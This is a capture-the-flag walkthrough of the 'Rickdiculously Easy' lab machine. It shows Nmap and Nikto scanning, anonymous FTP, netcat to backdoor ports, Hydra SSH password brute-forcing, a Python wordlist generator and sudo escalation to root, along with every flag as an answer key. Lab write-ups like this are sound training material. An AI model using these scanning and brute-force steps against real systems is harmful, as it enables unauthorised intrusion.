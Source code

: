 # Rickdiculously Easy

## Port Scanning

The box was up and running, all I needed was an IP address.

```
root@kali:~# netdiscover -r 192.168.43.0/24
```

Then, I moved onto our beloved port scanning phrase with Nmap:

```
root@kali:~# nmap -v -sS -O -A -p- 192.168.43.27
---snip---
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0              42 Aug 22 05:10 FLAG.txt
|_drwxr-xr-x    2 0        0               6 Feb 12  2017 pub
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.43.125
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open  ssh?
| fingerprint-strings: 
|   NULL: 
|_    Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 4.4.0-31-generic x86_64)
80/tcp    open  http    Apache httpd 2.4.27 ((Fedora))
| http-methods: 
|   Supported Methods: OPTIONS HEAD GET POST TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.27 (Fedora)
|_http-title: Morty's Website
9090/tcp  open  http    Cockpit web service
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Did not follow redirect to https://192.168.43.27:9090/
13337/tcp open  unknown
| fingerprint-strings: 
|   NULL: 
|_    FLAG:{TheyFoundMyBackDoorMorty}-10Points
22222/tcp open  ssh     OpenSSH 7.5 (protocol 2.0)
| ssh-hostkey: 
|   2048 b4:11:56:7f:c0:36:96:7c:d0:99:dd:53:95:22:97:4f (RSA)
|   256 20:67:ed:d9:39:88:f9:ed:0d:af:8c:8e:8a:45:6e:0e (ECDSA)
|_  256 a6:84:fa:0f:df:e0:dc:e2:9a:2d:e7:13:3c:e7:50:a9 (EdDSA)
60000/tcp open  unknown
|_drda-info: ERROR
| fingerprint-strings: 
|   NULL, ibm-db2: 
|_    Welcome to Ricks half baked reverse shell...
---snip---
```

The first open port is FTP, which allowed anonymous login and the first flag was already visible.

> First Flag: FLAG{Whoa this is unexpected} — 10 Points

Indeed, this was way too easy. At this point, I couldn’t make use of the SSH service and I moved on to port 80. Nikto is the first tool, which comes to my mind when I see a web server.

```

root@kali:~# nikto -h 192.168.43.27
---snip---
+ OSVDB-3268: /passwords/: Directory indexing found.
+ OSVDB-3092: /passwords/: This might be interesting...
---snip---
```

Another flag in the bag.

> Second Flag: FLAG{Yeah d- just don’t do it.} — 10 Points

I inspected the HTML file and there was a password comment: winter

I ran Nikto on port 9090, but the result was flooded with a large number of false-positives. I went to visit this login page and the flag was right in front of me.

> Third Flag: FLAG {There is no Zeus, in your face!} — 10 Points

## The Rabbit Hole

Well, this login page…To be honest, I really thought that this must be a way in. I didn’t even consider the possibility of a rabbit hole. There were some hidden HTML element and those raised my suspicion even more. I spent hours, even days figuring out what did I miss. My problem was, I forgot about the other ports and opportunities…. Anyways, let’s continue.
The next port is 13337. After the connection established, a “welcome” flag presented itself.

```
root@kali:~# nc 192.168.43.27 13337
```

> Fourth Flag: FLAG:{TheyFoundMyBackDoorMorty}-10Points

I skipped the SSH again on port 22222. I was curious for port 60000.

```
root@kali:~# nc 192.168.43.27 60000
```

It’s a reverse shell and yet another flag. Like a piece of cake, right?

> Fifth Flag: FLAG{Flip the pickle Morty!} — 10 Points

I was stuck again, but out of the blue, I had an idea. What about the robots.txt? It turned out, it was a jackpot.

```
They're Robots Morty! It's ok to shoot them! 
They're just Robots!/cgi-bin/root_shell.cgi
/cgi-bin/tracertool.cgi
/cgi-bin/*
```

It made me sad that the root shell is under construction. On the other hand, the tracertool worked like charm. I mean, sweet command injection!
At this point, I had 3 users and a password. I let hydra determine, whose password this is. SSH was unsuccessful on port 22, however on 22222...

```
root@kali:~# hydra -L users.txt -p winter ssh://192.168.43.27:22222
---snip---
[DATA] attacking ssh://192.168.43.27:22222/
[22222][ssh] host: 192.168.43.27   login: Summer   password: winter
1 of 1 target successfully completed, 1 valid password found
```

The next flag was in Summer’s home folder. By the way, I had to use the `less` and `more` commands everywhere, because the `cat` command has been replaced with a nice ascii cat banner.

> Sixth Flag: FLAG{Get off the high road Summer!} — 10 Points

I visited some promising directories (unsuccessfully) before I navigated to Morty's home folder. I found a `Safe_Password.jpg` and a password protected zipped text file. I couldn’t run strings on the jpg file, so I downloaded them to my machine.

```
root@kali:~/Downloads# strings Safe_Password.jpg | grep word
8 The Safe Password: File: /home/Morty/journal.txt.zip. Password: Meeseek
```

The extracted `journal.txt` contained another flag.

> Seventh Flag: FLAG: {131333} — 20 Points

In RickSanchez’s home folder, there were 2 folders. The second one was named `ThisDoesntContainAnyFlags`, but I had to try. The creator didn’t lie, no flag was found. `RICKS_SAFE` folder was a place for an ELF executable.
I had to copy it to Summer’s home folder in order to execute it. The program needed command line arguments… I was struggling to come up with a good idea. Then, it hit me. Did you notice the difference between the other flags and the last flag? Yeah…

```
[Summer@localhost ~]$ ./safe 1313333
decrypt:  FLAG{And Awwwaaaaayyyy we Go!} - 20 PointsRicks password hints:
(This is incase I forget.. I just hope I don't forget how to write a script 
to generate potential passwords. Also, sudo is wheely good.)
Follow these clues, in order1 uppercase character
1 digit
One of the words in my old bands name.
```

> Eighth Flag: FLAG{And Awwwaaaaayyyy we Go!} — 20 Points

Well, these are pretty clear instructions. I searched for that band and the first result was `The Flesh Curtains`. I have decided to write my own python script for generating passwords. Here is the result:

```python
#!/bin/python
import string
import os
import itertools

print "Generating passwords..."

uppercase_letters = list(string.ascii_uppercase)
digits = range(0, 9)
words = ["Flesh", "Curtains"]

# calculate the product of the provided values and store them in a list
combinations = list(itertools.product(uppercase_letters, digits, words))
    
file_name = 'passwords.txt'

# write passwords to the file
with open(file_name, "w") as file:
    for combination in combinations:
        file.write(str(combination[0]) + str(combination[1]) + str(combination[2]) + "\n")

# close the file
file.close()
print "Password list has been successfully generated!"
```

## The Final Stage

I had a password list and a username. That’s all I needed! SSH on port 22 was a dead end again, unlike port 22222.

```
root@kali:~# hydra -l RickSanchez -P passwords.lst ssh://192.168.43.27:22222---snip---[DATA] attacking ssh://192.168.43.27:22222/
[22222][ssh] host: 192.168.43.27   login: RickSanchez   password: P7Curtains
1 of 1 target successfully completed, 1 valid password found
---snip---
```

Just one thing left, I have to gain root access. It’s not that hard since our user (RickSanchez) can easily run `sudo su`. In the root user home directory, I found the final flag. Game over!

> Nineth Flag: FLAG: {Ionic Defibrillator} — 30 points


